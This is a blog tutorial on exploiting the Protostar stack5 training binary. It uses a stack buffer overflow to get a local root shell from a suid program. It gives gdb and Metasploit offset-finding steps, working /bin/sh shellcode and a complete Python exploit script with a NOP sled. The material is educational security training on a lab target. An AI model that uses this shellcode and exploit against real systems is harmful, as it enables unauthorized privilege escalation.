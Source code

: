 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5
categories: binary-exploitation
image: binary-exploitation/BOF5/0.png
---
```


<hr>
### Introduction
#### Hey I'm back with another Buffer Overflow article and today we are going to do a really interesting exploit , Today we will finally escalate privileges using a vulnerable suid binary (you can know more about that by reading the [first buffer overflow article](/binary-exploitation/bof1/)) , I will also cover some interesting topics to fully understand this exploit. This is also the most realistic exploit so far. All the previous exploits wanted us to change a variable , execute a function .. stuff that are more like CTF but this time we have a realistic situation , Without wasting more time let's just jump right in.
#### Read the [previous articles](/categories) first , if you haven't done yet.
![](/images/binary-exploitation/BOF5/0.png)
<hr>
### ./Stack5
#### We have the source like all the previous challenges but this time it's actually not important.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### It just takes our input and stores it in the buffer , it doesn't even tell us about the buffer size. What about `char buffer[64];` ?  like [stack4](/binary-exploitation/bof4/) if we tried 64 chars it won't even crash. with that being said let's start.
#### As always we will start by finding out if the binary vulnerable or not (yea we already know that but it's an important enumeration step)
`python -c "print 'A' * 100" | ./stack5`
![](/images/binary-exploitation/BOF5/1.png)
#### Segmentation fault. So it crashes before 100 chars , next step is to know where exactly does it crash. We will use metasploit `pattern_create` and `pattern_offset` , I explained how does this work in [stack3](/binary-exploitation/bof3)
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF5/2.png)
#### Then we will run gdb and create a break point at `main()` , `run` the program after the break point we make it continue then pass our pattern
`break main`
<br>
`run`
<br>
`c`
![](/images/binary-exploitation/BOF5/3.png)
#### It crashes at `0x63413563` , now we will use `pattern_offset`
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF5/4.png)
#### And we get exact match at offset 76. As I said before we will exploit this binary to get a root shell , but how to know if it's a suid binary or not ? we can simply use `find` to know that
`find /opt/protostar/bin/ -perm -4000 | grep stack5`
![](/images/binary-exploitation/BOF5/5.png)
#### And we get `/opt/protostar/bin/stack5` , if it wasn't a suid binary we wouldn't get any output. If you are just searching for suid binaries you can remove the `grep` command and it will list all suid binaries in the specified directory.
<br>
<hr>
### Fun with gdb , finding EIP 
#### Now let's run gdb again and start getting useful information. Before we start I have to say that the memory addresses may differ , so mine won't be the same as yours. Last time we have overwritten the EIP address with the address of `win()` function . This time we don't have a function to execute ,we have to find the address of the EIP and make it point to our "evil input" (shellcode), I will explain in a moment.
#### We will set the disassembly flavor to intel
`set disassembly-flavor intel`
#### Then we will disassemble the main function
`disassemble main`
![](/images/binary-exploitation/BOF5/6.png)
#### By looking at that we can identify the best place to set our break point , and it's gonna be before the `leave` instruction , `leave` is right before the `return` instruction , next to `leave` we see the address `0x080483d9` so we will type :
`break *0x080483d9`
![](/images/binary-exploitation/BOF5/7.png)
#### Then we will run the program and pass any input , many A's is always good 
![](/images/binary-exploitation/BOF5/8.png)
#### It will execute and stop at the breakpoint , by typing `info frame` we can get the EIP address
`info frame`
![](/images/binary-exploitation/BOF5/9.png)
#### The last 2 lines show saved registers : eip at `0xbffff77c`
<br>
<hr>
### Another way to get the buffer size
#### Let's take a break and take a quick look at another way to get the buffer size , I wanted to show this quickly because we have already done 50 % of it ..
#### Metasploit is cool but what if we don't have metasploit in some situation ? We can do it manually by calculating the distance between the buffer start address and the EIP address , We have already got the EIP address so let's get the start of the buffer.
#### If we type `x/24wx $esp` it will show us (`x/`) 24 (`24wx`) words at the top of the stack (`$esp`).
`x/24wx $esp`
![](/images/binary-exploitation/BOF5/10.png)
#### At the second line we see this address `0xbffff730` and it holds values of `0x41414141` and we already know that 41 is the hex of "A" which was our input to the program so we know that this address is where the buffer starts. We know that the buffer comes first then the EIP so the EIP's address is greater than the buffer's address. We will substract them from each other:
`p/d 0xbffff77c - 0xbffff730`
![](/images/binary-exploitation/BOF5/11.png)
#### And we get 76 , the same result we got using metasploit. That was another practical way to find the buffer's size.
<br>
<hr>
### Idea of the exploit
#### before we build our exploit let's just understand the idea of the exploit. we will fill the buffer with "A" as always , we will reach the EIP and overwrite it with a new address that points to our shell code (4 bytes after), then we will add something called NOP (No Operation) , then finally the shellcode. Let's breakdown everything.
<br>
<hr>
### ShellCode
#### So what's a shellcode ? Simply it's a piece of code ("written in hex in our situation") that we use as a payload to execute something . `/bin/sh` for example. And this binary is suid ... so if we execute shellcode that executes `/bin/sh` with the binary we will get a root shell.
#### You can get shellcodes from [shell-storm](http://shell-storm.org/shellcode/) or from [exploit-db](https://www.exploit-db.com/) , of course there are a lot of other resources , I'm just giving examples.
#### This is the [shellcode](https://www.exploit-db.com/exploits/13357) we are going to use for this challenge :
```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
#### This shellcode executes `/bin/sh`
<br>
<hr>
### NOP (No Operation)
#### Basically no operation is used to make sure that our exploit doesn't fail , because we won't always point to the right address , so we add stuff that doesn't do anything and we point to them , Then when the program executes it will reach those NOPs and keeps executing them (does nothing) until it reaches the shellcode.
<br>
<hr>
### Building the exploit
#### In the last challenges a single python print statement solved it. This time it will be a mess so we will create a small exploit with python.
#### First thing we will import a module called struct , I will explain why in a moment.
`import struct`
#### Then we will create a variable the holds the padding (the chars to fill the buffer)
`pad = "\x41" * 76`
#### After it fills the buffer it will hit the EIP , we need the new EIP address that we will assign , as I said above we need it to be the address of the following instruction (4 bytes after the original EIP address) so it will be `0xbffff77c + 4` , google can simply give you the answer :D . it will be `0xbffff780` . We will add that value to a variable but remember we need it in reverse , That's why struct is important. if you do `import struct;struct.pack("I" , 0xbffff780)` from the python interpreter it will print `\x80\xf7\xff\xbf` , it makes life easier :D
`EIP = struct.pack("I", 0xbffff780)`
#### Then comes our shellcode
`shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`
#### Last thing is the NOP , it can be anything , so 100 chars will be good
`NOP = "\x90" * 100`
#### Ok our exploit is ready , we just need to print out the final payload so :
`print pad + EIP + NOP + shellcode`
#### Let's take a look at the script :
```
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff780)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```
![](/images/binary-exploitation/BOF5/12.png)
<hr>
### Applying the exploit
#### Now it's show time ! let's test it out.
` python /tmp/stack5.py | ./stack5`
![](/images/binary-exploitation/BOF5/13.png)
#### And we got a root shell ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4](/binary-exploitation/bof4/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , ret2libc - protostar stack6](/binary-exploitation/bof6/)
<hr>
